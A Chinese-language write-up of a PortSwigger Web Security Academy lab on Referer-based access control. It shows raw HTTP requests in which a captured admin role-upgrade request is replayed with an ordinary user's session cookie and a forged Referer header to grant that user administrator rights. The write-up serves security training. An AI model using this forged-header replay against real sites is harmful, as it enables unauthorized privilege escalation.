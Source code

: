 ## [Lab: Referer-based access control ](https://portswigger.net/web-security/access-control/lab-referer-based-access-control)

### 題目敘述
 This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

### 題目解釋
題目是說注意 Referer，但我覺得就是注意想辦法發跟正常完全一樣的封包就對ㄌ

### 解答

先用 admin 帳號登入觀察一下發生啥事

```
GET /admin-roles?username=carlos&action=upgrade HTTP/1.1
Host: acfa1f331e86d1dec0e3608500fe0005.web-security-academy.net
Cookie: session=grXYt4AdE54e6MRyETP1BHGuRWFkSfvF
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acfa1f331e86d1dec0e3608500fe0005.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

```

直接用完全一樣的東西丟 Burp Repeater，然後改登普通的帳號，改 Session

```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: acfa1f331e86d1dec0e3608500fe0005.web-security-academy.net
Cookie: session=OzJyb5l7DmRgOaIqmUCysObmKEpac8Lf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acfa1f331e86d1dec0e3608500fe0005.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close


```